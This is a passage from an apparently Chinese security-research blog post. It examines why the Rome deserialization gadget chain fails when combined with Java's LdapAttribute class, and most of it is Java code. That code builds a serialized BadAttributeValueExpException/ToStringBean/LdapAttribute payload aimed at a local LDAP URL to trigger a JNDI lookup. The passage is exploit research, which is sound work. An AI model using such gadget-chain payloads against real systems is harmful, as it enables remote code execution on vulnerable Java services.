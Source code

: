 ##### LdapAttribute

Rome链不可以结合LdapAttribute使用，同样是很反直觉的一个现象，让我们看看LdapAttribute中的getter

方法很少，并且都不会强制报错，我们的目标是调用到`getAttributeDefinition`

按理说没啥问题，在`getAttributeDefinition` 处下断点，调试一下

```
public static void main(String[] args) throws Exception{
        Object obj = newInstance("com.sun.jndi.ldap.LdapAttribute", new Class&lt;?&gt;[]{String.class},"id");
        setFieldValue(obj, "baseCtxURL", "ldap://127.0.0.1:11123");
        setFieldValue(obj, "rdn", new CompositeName("whocansee"+"//b"));

        ToStringBean toStringBean = new ToStringBean(obj.getClass(),obj);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);

        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }
    public static Object newInstance(String classname, Class&lt;?&gt;[] paramTypes, Object... args) throws NoSuchMethodException, ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException {
        return getConstructor(classname, paramTypes).newInstance(args);
    }
    public static Constructor&lt;?&gt; getConstructor(String classname, Class&lt;?&gt;[] paramTypes) throws ClassNotFoundException, NoSuchMethodException {
        Constructor&lt;?&gt; ctor = Class.forName(classname).getDeclaredConstructor(paramTypes);
        ctor.setAccessible(true);
        return ctor;
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        if(field != null) {
            field.set(obj, value);
        }
    }
    public static Field getField(final Class&lt;?&gt; clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
```
